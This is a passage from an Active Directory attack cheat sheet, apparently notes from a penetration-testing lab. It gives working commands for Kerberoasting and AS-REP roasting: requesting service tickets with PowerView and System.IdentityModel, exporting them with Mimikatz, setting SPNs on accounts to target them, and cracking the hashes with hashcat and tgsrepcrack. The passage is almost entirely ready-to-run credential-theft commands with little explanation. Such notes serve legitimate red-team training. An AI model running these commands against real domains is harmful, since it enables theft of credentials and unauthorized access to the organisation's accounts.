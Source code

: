 ### Kerberoasting

#### Automatic

With PowerView:

```
Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local" 
```

Crack the hash with Hashcat:

```
hashcat -a 0 -m 13100 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule 
```

#### Manual

```
# Request TGS for kerberoastable account (SPN)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump TGS to disk
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack with TGSRepCrack
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\mssqlsvc.kirbi 
```

#### Targeted kerberoasting by setting SPN

We need ACL write permissions to set UserAccountControl flags for said user, see above for hunting. Using PowerView:

```
Set-DomainObject -Identity support355user -Set @{serviceprincipalname='any/thing'} 
```

### AS-REP roasting

Get the hash for a roastable user (see above for hunting). Using `ASREPRoast.ps1`:

```
Get-ASREPHash -UserName VPN355user 
```

Crack the hash with Hashcat:

```
hashcat -a 0 -m 18200 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule 
```

#### Targeted AS-REP roasting by disabling Kerberos pre-authentication

We need ACL write permissions to set UserAccountControl flags for said user, see above for hunting. Uses PowerView.
